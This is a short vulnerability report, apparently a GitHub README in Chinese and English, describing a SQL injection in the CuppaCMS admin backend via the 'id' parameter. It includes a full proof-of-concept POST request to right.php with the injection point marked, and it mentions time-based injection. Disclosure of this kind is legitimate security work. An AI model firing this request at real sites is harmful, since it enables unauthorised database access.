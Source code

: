 # CuppaCMS-SQL Injecttion

 后台存在SQL注入 <br>
 注入参数 <b>id</b>
 ## POST
 POST /templates/default/html/windows/right.php HTTP/1.1<br>
 X-Requested-With: XMLHttpRequest<br>
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36<br>
 Content-Type: application/x-www-form-urlencoded; charset=UTF-8<br>
 <br>
 id=*&url=components%2Ftable_manager%2Fhtml%2Fedit_admin_table.php&path=component%2Ftable_manager%2Fview%2Fcu_views&uniqueClass=window_right_1860693<br>
 ## 延时注入
 ![image](https://github.com/tangzhaosong/Excavate/assets/100182502/38deaee9-17b8-42d7-8862-99f0eaa51de4)

![image](https://github.com/tangzhaosong/Excavate/assets/100182502/37dcde04-2f7c-4cb8-b27f-3f6a7d64c383)

 
 ![image](https://github.com/tangzhaosong/Excavate/assets/100182502/4d3baf53-d41b-4b79-b494-cc5e1286a24e)
 
 ![image](https://github.com/tangzhaosong/Excavate/assets/100182502/77513a6b-6bc1-4ee9-99ad-ff32bf4ea9e4)

